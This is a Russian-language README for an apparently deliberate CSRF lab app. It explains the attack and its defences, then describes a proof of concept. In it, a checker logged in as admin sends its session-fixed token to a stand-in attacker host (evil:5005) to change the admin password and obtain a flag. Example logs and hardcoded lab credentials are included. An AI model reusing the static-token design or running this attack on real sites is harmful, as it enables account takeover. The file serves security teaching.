# Описание уязвимости
CSRF (Cross-Site Request Forgery) — это атака, при которой злоумышленник заставляет аутентифицированного пользователя выполнить нежелательные действия на веб-странице. При этом законный пользователь не знает об этом. CSRF-атака возможна, если веб-приложение не проверяет подлинность запроса, отправленного на сервер. Если браузер автоматически добавляет куки сессии при выполнении запроса, злоумышленник может подменить данные.

# Способы защиты
1. Использование CSRF-токенов
2. Проверка заголовков "Origin" и "Referer"
3. Ограничение методов запроса (GET-запрос не должен изменять данные)
4. Ограничение времени жизни сессий

# Запуск приложения
Для запуска необходимо запустить Docker и прописать в командной строке:

*docker-compose up --build*

# Описание уязвимости в реализованном приложении
В приложении реализована защита от CSRF с использованием токенов. Однако, CSRF-токен генерируется при входе в систему и не изменяется до завершения сессии. Это позволяет злоумышленнику получить токен и использовать его в атаке: поменять пароль админа на любой иной, залогиниться от его имени и получить флаг.

# POC-эксплоит для получения флага
После запуска приложения начинает свою работу чекер. Он авторизуется на странице логина (**http://web:5000/login**) как администратор ("admin/admin123"). Администратор хочет сменить свой пароль, поэтому чекер переходит на страницу смены пароля (**http://web:5000/change**) и при этом извлекает оттуда CSRF-токен (который не изменяется до завершения сессии). Затем чекер идёт на вредоносную страницу (**http://evil:5005/login**) - злоумышленник мог хитростью заставить администратора зайти туда - и автоматически выполняет POST-запрос на страницу смены пароля с заданным паролем (hacked123) и CSRF-токеном. Наконец, чекер заходит через страницу логина с новоустановленным паролем, и флаг отображается.

Пример логов чекера:

*Copy

Checker script started

Checking...
Starting check...
Opening login page: http://web:5000/login
Logged in as admin
CSRF Token: 13acb3deb0f514fa73d75148cd9d34af
Opening attacker page: http://evil:5005/login?csrf_token=13acb3deb0f514fa73d75148cd9d34af
Page loaded successfully
Re-opening login page: http://web:5000/login
CSRF exploit worked! ✅*

После того, как последняя строка будет иметь место, можно зайти на страницу логина (**http://web:5000/login**), выполнить вход ("admin/hacked123") и увидеть флаг.
